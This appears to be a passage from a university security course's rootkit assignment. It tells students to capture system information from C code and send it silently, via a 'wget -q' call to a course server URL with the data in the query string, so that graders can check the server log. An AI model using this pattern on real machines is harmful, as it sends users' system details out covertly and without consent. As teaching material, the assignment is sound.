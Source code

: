 ```
NoLSBmodulesareavailable.DistributorID:UbuntuDescription:Ubuntu18.04.2LTSRelease:18.04Codename:bionic
```

You can even replace all spaces with underscores, if you wish.  We are
less focused on text formatting and more on the obtaining and
transmission of the information.  And if your system does not print
the first line ("No LSB modules are available."), that's fine as well.

From the C code, you will need to execute a command-line program and
capture the output.  There are a few ways to do this:

- You can do this as series of command-line arguments that create a
  file, and then read in that file.  For example, `system("command >
  filename.txt");` will create the file, and then you can look into
  file I/O to read in that file (see the
  [fileio.cpp](https://uva-cs.github.io/pdr/labs/lab10/fileio.cpp.html)
  program from CS 2150's Huffman coding lab as an example)
- You can call the command directly (without redirecting it to a file)
from C -- see the code
[here](https://stackoverflow.com/questions/7292642/grabbing-output-from-exec)
for how to do this (you can copy the code at that link for this
assignment).

You will then need to transmit this over the network.  To simplify it,
you just call a URL:
[https://libra.cs.virginia.edu/rootkit.php?userid=mst3k&data=...](https://libra.cs.virginia.edu/rootkit.php?userid=mst3k&data=...)
where mst3k is your userid and the `...` is the data you are sending.
You can do this via a `wget` call (again, executing a command-line
program from the C/C++ program via
[execl()](https://www.systutorials.com/docs/linux/man/3-exec/)): `wget
https://libra.cs.virginia.edu/rootkit.php?userid=mst3k&data=...`.  This
puts the information into the apache web server log.  There are more
efficient ways to do this, but putting it into the apache log is fine
for this assignment.  Note that you should supress the output from the
`wget` call -- you can do this with the `-q` flag.

You may also want to familiarize yourself with the
[system()](https://www.systutorials.com/docs/linux/man/3-system)
function.

To see what information has been sent, go directly to the
[https://libra.cs.virginia.edu/rootkit.php](https://libra.cs.virginia.edu/rootkit.php)
URL.  Once you log in with Netbadge, you will be able to see all the
data sent in under that userid.

Note that the logs that are displayed only keep the information sent
in the last few hours -- we will look at the entire log history when
we grade the assignment, but the information that you see will be only
the most recent.  So don't worry if the entries that you saw on a
previous day are no longer present.  As long as they were there at
*some* point, we'll see them when we grade the assignment.
